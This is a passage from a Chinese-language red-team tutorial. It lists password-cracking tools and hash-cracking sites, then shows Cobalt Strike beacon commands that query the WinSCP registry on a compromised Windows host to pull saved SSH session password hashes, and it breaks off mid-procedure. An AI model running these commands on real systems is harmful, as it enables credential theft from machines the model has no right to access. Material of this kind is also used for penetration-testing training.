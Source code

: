     THC Hydra--在线破解工具 
    
    WFUZZ--WebFuzz神器
    
        

**在线解Hash网站**

    https://www.cmd5.com/ 
    
    https://crackstation.net/
    
    https://www.onlinehashcrack.com/ 
    
    tps:/www.objectif-securite.ch/ophcrack.php 
    
    https://hce.iteknical.com/
    
        

* * *

#### 5.2.6 解密Winscp和SecureCRT客户端中保存的密码hash

##### Winscp

**前言**

WinSCP是一个Windows环境下使用的SSH的开源图形化SFTP客户端。同时支持SCP协议。它的主要功能是在本地与远程计算机间安全地复制文件，并且可以直接编辑文件。而我们的主要目的是为了读取里面各种的SHH连接密码。

所有操作全部在管理员权限下进行

**最新版Winscp为例**

通过powershell脚本搞定，或者RDP直接登录连接查询等。 「绿色版无安装记录」

    beacon> powershell-import /Users/anonysec/ListInstalledPrograms.ps1
    
    beacon> powershell Get-list
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201001204955304.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
前提，目标得事先保存连接密码-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201001205013947.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**确定Winscp存储位置**

默认情况下，Winscp配置会存储在Windows对应的注册表项下（包括了连接的IP、用户名、密码Hash）

    HKEY_CURRENT_USER\Software\Martin Prikryl\WinSCP 2\Sessions\
    
        

**具体解密过程**

1.查看Winscp配置的Windows注册表（注册表项是固定的），如果有连接会话，再指定查询连接下所保存的密码Hash。

    beacon> shell reg query "HKEY_CURRENT_USER\Software\Martin Prikryl\WinSCP 2\Sessions"
    
    beacon> shell reg query "HKEY_CURRENT_USER\Software\Martin Prikryl\WinSCP 2\Sessions\root@192.168.144.128"
    
        